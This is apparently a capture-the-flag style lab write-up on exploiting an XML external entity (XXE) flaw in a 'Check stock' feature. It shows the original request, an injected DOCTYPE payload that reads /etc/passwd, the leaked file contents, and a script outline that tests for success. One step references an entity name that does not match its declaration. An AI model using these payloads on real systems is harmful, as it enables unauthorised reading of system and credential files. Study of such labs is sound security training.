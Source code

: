 ### Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

_____

Analysis and Exploit:

1. "Check stock" feature a POST **/product/stock**
    - ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>```
2. Modify XML to inject an external entity
    - ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<!DOCTYPE jito [ <!ENTITY ext SYSTEM "file:///etc/passwd"> ]>```  
    ```<stockCheck><productId>&jito;</productId><storeId>1</storeId></stockCheck>```
3. **[BURP-REPEATER]** send POST with modified XML with external entity to retrieve the content of the file /etc/passwd
    - Works!
    - Returns error 400 Bad Request
    - ```"Invalid product ID: root:x:0:0:root:/root:/bin/bash```  
```daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin```  
```bin:x:2:2:bin:/bin:/usr/sbin/nologin```  
```sys:x:3:3:sys:/dev:/usr/sbin/nologin```

_____

Script:

1. Send POST request with payload | POST **/product/stock** | params: 'xml payload'
    - ```<?xml version="1.0" encoding="UTF-8"?>```  
    ```<!DOCTYPE jito [ <!ENTITY ext SYSTEM "file:///etc/passwd"> ]>```     
    ```<stockCheck><productId>&ext;</productId><storeId>1</storeId></stockCheck>```  
    - If response status code == 400 and "Invalid product ID: root:x:0:0:root:/root:/bin/bash" in the response text:
        - Works! 